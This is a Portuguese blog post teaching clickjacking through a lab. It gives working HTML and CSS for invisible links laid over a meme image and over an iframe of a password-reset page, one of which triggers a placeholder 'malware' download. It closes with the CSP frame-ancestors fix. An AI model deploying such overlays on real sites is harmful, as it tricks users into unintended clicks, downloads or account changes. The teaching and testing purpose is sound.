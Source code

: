 ```yaml
---
title: Testando Para Clickjacking
date: 2023-12-29 12:12:12 +/-TTTT
categories: [Sharing Knowledge, Cybersecurity, Web]
img_path: ../../assets/images
image:
  path: thumb_post_clickjacking.png
  alt: Iframes do Clickjacking
tags: [cybersecurity,web]     # TAG names should always be lowercase
---
```



<!-- {% include embed/youtube.html id='ORRaHV9HSrI' %} -->


---



{: .prompt-warning }
> Qual problema esse artigo resolve ?

Clickjacking por vezes parece ser algo abstrato e de dificil compreensão. Parece ter relação com headers de segurança, entretanto não é tão simples de compreender o que de fato é o clickjacking, como se explora, como se testa a vulnerabilidade e como se corrige.

---

{: .prompt-tip }
> O que vamos fazer?

Nesse artigo vamos demonstrar como funciona o clickjacking, como testar aplicações para clickjacking e quais o headers de segurança precisamos implementar para eliminar essa vulnerabilidades.

Iremos utilizar um laboratorio utilizando ec2, route 53 e criatividade.

---

## 1 - O que é clickjacking

Clickjacking tem em sua etimologia a descrição de "roubo de clicks" onde basicamente um atacante se esforça para "roubar" ou coletar o click que iria para outro site ou outro local. 

Imagine que você abre seu navegador e quer acessar o seu internet banking, e em algum momento você vai precisar clicar em botões, links, campos de texto, etc... 

Toda a ideia do clickjacking é fomentar um ambiente para que seja possível que a vítima acredite que legitimamente está clicando em algo, nesse caso, o internet banking, ela consegue até visualizar com certa familiaridade onde está clicando, mas existe um "botão" transparente na frente em que vai roubar o click da vítima e direciona-la para um download de um malware, ou para um site ficticio.

Geralmente o clickjacking envolve a incorporação de um site em um "iframe" e a sobreposição de um botão invisível em cima de desse iframe. 

## 2 - Cenário de ataque Clickjacking

### 2.1 - Clickjacking utilizando Imagens

Imagine que Jonas está em uma conversa informal pela internet quando percebe que um meme que está no "hype" popularmente conhecido como "meme do pão francês brasileiro" encaixaria muito bem no contexto da conversa, Jonas lembra do meme mas não sabe exatamente onde ele está armazenado para compartilhar.

Então o que ele faz ? Procura no google por "meme do pão francês brasileiro". E aqui começa o ataque.

Ao pesquisar por meme do pão francês brasileiro, o google naturalmente vai retornar diversos links de diversos sites.

Agora imagine que você como atacante se aproveita da popularidade desse meme e cria um site malicioso que contém o meme, pronto para buscar pessoas como Jonas. O site aparenta como a imagem abaixo:

![memes_fake](memes1.png){: .normal w="700" h="400" }

Jonas naturalmente clica aleatoriamente no link que aparece no resultado das pesquisas e acaba indo parar no site do atacante.

Ao passar o mouse em cima do meme, percebe que é "clicável", prontamente Jonas imagina que deve leva-lo até a origem do meme então clica.

![clickjacking](clickjacking.gif){: .normal w="700" h="400" }

Aqui temos um exemplo de clickjacking. No gif acima é possível ver que Jonas foi redirecionado para um link arbitrariamente escolhido pelo atacante. Ao pensar que estava clicando no meme quando na verdade estava clicando em uma camada posta propositalmente na frente do meme.

Isso acontece pois existem duas camadas nessa imagem. Uma é a própria imagem em si:

```html
<img src="images/memes1.jpeg" alt="Meme 1">
```

E a outra camada, que fica por cima da imagem é um link que leva a uma origem arbitrária. Atenção para a class "invisible-link":

```html
<body>
    <h1>Top 15 Memes 2023</h1>
    <div class="iframe-container">
        <img src="images/memes1.jpeg" alt="Meme 1">
	      <a href="https://media.tenor.com/He2W0AQvZfsAAAAC/hacked-hack.gif" class="invisible-link" target="_blank" rel="noopener noreferrer"></a>
    </div>
</body>
```

CSS:

```css
        .invisible-link {
            position: absolute;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            z-index: 999;
            cursor: pointer;
        }
        .iframe-container {
            display: inline-block;
            margin: 0 10px;
            position: relative;
        }
```

---

### 2.2 - Clickjacking para Download de malwares

![clickjacking2](download_malware.gif){: .normal w="700" h="400" }

```html
<body>
    <h1>Top 15 Memes 2023</h1>
    <div class="iframe-container">
        <img src="images/memes1.jpeg" alt="Meme 1">
	<a href="images/malware.txt" class="invisible-link" rel="noopener noreferrer" download></a>
    </div>
</body>
```
---

Aqui está o código completo:

```html
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Meme Page</title>
    <style>
        body {
            font-family: 'Courier New', monospace;
            text-align: left;
            margin: 0;
            padding: 0;
            background-color: #255255255;
        }

        h1 {
            color: #000;
            margin-bottom: 20px;
        }

        .iframe-container {
            display: inline-block;
            margin: 0 10px;
            position: relative;
        }

        /* Link Invisível */
        .invisible-link {
            position: absolute;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            z-index: 999;
            cursor: pointer;
        }
    </style>
</head>
<body>
    <h1>Top 15 Memes 2023</h1>
    <div class="iframe-container">
        <img src='images/memes1.jpeg' alt="Meme 1">
        <img src='images/memes2.jpeg' alt="Meme 2">
	<!-- redireciona arbitrariamente -->
<!-- <a href="https://media.tenor.com/He2W0AQvZfsAAAAC/hacked-hack.gif" class="invisible-link" target="_blank" rel="noopener noreferrer"></a>-->
	<!-- causa o download de malware -->
	<a href="{{ url_for('static',filename='images/malware.txt') }}" class="invisible-link" rel="noopener noreferrer" download></a>
    </div>
</body>
</html>
```

---


### 2.3 - Clickjacking Clássico (iframes)

O ataque clássico de clickjacking basicamente envolve incorporar uma página legítima em um frame, e induzir a vítima a clicar em determinados locais.

Para explicar o ataque clássico, vamos imaginar uma aplicação web que contém uma página de reset de senha. Para resetar a senha obviamente você precisa estar logado na aplicação.

O formulário de reset de senha é protegido por token único para cada sessão, então um ataque do tipo CSRF não é viável.

A aplicação não configurou os headers de segurança x-frame-options ou CSP, Então nesse caso o ataque de clickjacking é uma boa alternativa para os atacantes. 

App vulneravel:

![reset_senha](reset_senha_1.png){: .normal w="700" h="400" }

Para testar se essa app é de fato vulneravel a um ataque de clickjacking, vamos tentar incorporar essa página em um iframe de outro domínio. Para isso vamos montar um html local e tentar incorpora-lo.

E para comparação, iremos tentar incorporar uma página que sabemos que é segura, o google. E colocaremos os dois iframes um do lado do outro:

![comparacao_iframe](comparacao_iframe.png){: .normal w="700" h="400" }

Abaixo tem o código html utilizado, repare que a incorporação acontece na tag "<iframe>":

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Clickjacking Hacker Lab</title>
    <style>
        body {
            font-family: 'Courier New', monospace;
            text-align: center;
            margin: 0;
            padding: 0;
            background-color: #000;
            color: #0f0;
        }

        h1 {
            color: #0f0;
            margin-bottom: 20px;
        }

        .iframe-container {
            display: inline-block;
            margin: 0 10px;
            position: relative;
        }

        .iframe-container iframe {
            width: 100%;
            height: 450px;
            border: 2px solid #0f0;
            background-color: #000;
        }

        .iframe-description {
            position: absolute;
            top: 0;
            left: 0;
            width: 100%;
            background-color: rgba(0, 0, 0, 0.7);
            color: #0f0;
            font-size: 18px;
            padding: 10px;
            box-sizing: border-box;
            z-index: 1;
        }

        .impact-section {
            margin-top: 50px;
        }

        .impact-section h2 {
            color: #0f0;
            margin-bottom: 10px;
        }

        .impact-text {
            text-align: left;
            max-width: 600px;
            margin: 0 auto;
            color: #0f0;
        }
        /* Link Invisível */
        .invisible-link {
            position: absolute;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            z-index: 999;
            cursor: pointer;
        }
    </style>
</head>
<body>
    <h1>Clickjacking Hacker Lab</h1>

    <div class="iframe-container">
        <iframe src="http://app.absolem00.com/"></iframe>
        <div class="iframe-description">Vulneravel a clickjacking</div>
    </div>

    <div class="iframe-container">
        <iframe src="https://www.google.com.br"></iframe>
        <div class="iframe-description">Não vulneravel a clickjacking</div>
    </div>

    <div class="impact-section">
        <h2>Impactos do Clickjacking:</h2>
        <div class="impact-text">
            <p>O Clickjacking é uma técnica maliciosa que engana o usuário ao clicar em algo diferente do que percebem.</p>
            <p>Impacto: Clicar em botões não intencionais, baixar malwares, ser direcionado para páginas de phishing, etc...</p>
            <p>É importante implementar medidas de segurança, usualmente habilita-se o header de resposta Content-Security-Policy (CSP) com a diretiva "frame-ancestors". Ou o X-Frame-Options, para prevenir ou mitigar os riscos associados ao Clickjacking.</p>
        </div>
    </div>

    <div class="impact-section">
        <h2>Cenário Real. Clique abaixo</h2>
    </div>

    <div class="iframe-container">
        <iframe src="http://app.absolem00.com/" allowtransparency="true"></iframe>
        <a href="https://media.tenor.com/He2W0AQvZfsAAAAC/hacked-hack.gif" class="invisible-link" target="_blank" rel="noopener noreferrer"></a>
    </div>

</body>
</html>
```

Maravilha, agora sabemos que a app de fato pode ser incorporada em um iframe e pode ser utilizada em um ataque de clickjacking.

A partir daqui, o principio é o mesmo. Adicionar uma camada transparente na frente do iframe para induzir o atacante a clicar no "Redefinir Senha" para redefinir a senha para vazio, ou em casos mais elaborados iludir o usuário a preencher campos. Enfim, aqui a criatividade é a principal arma para o ataque ser bem sucedido.

![clickjacking_lab](lab_clickjacking.gif){: .normal w="700" h="400" } 



## Bypassing de CSRF

Um atacante pode utilizar o clickjacking para **bypassar CSRF**. Como muitos de vocês devem saber, CSRF é um token único para ser utilizado principalmente em formularios. E o clickjacking permite que o próprio usuário clique, com seu "próprio csrf".

---

## Como Corrigir Clickjacking?

A solução mais simples envolve a adição do header de segurança "CSP" que significa Content-Security-Policy com a diretiva "frame-ancestors". A qual permite gerenciar quando a página pode ser incorporada em um frame







